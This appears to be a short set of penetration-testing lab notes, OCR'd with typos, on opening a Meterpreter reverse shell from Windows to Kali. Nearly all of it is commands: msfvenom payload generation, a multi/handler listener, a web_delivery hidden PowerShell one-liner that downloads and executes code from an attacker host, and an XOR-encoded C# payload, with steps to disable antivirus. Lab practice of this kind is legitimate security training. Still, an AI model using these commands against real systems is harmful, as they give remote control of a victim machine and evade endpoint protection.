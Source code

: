 # Opening a revershell from windows to kali

Confingure both machines to be in the same internal network and able to ping each other.

Generate the payload using msfvenon.  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Disbale antirvirus and transfer the payload to the victim machine.

Set up a reverse shell handler in kali.  
```
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp
> set lhost=<IP>
> set lport=<PORT>
> run
```

Run the exe in victim machine and wait for connection.


# Exploiting via web delivery

In msfconsole,
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

set lhost and lport

in windows cmd with antivirus disabled,
```
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://<ip>:<port>/<uri>');
```
# generating a C# payload with XOR encoding

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f csharp -e x64/xor_dynamic
```
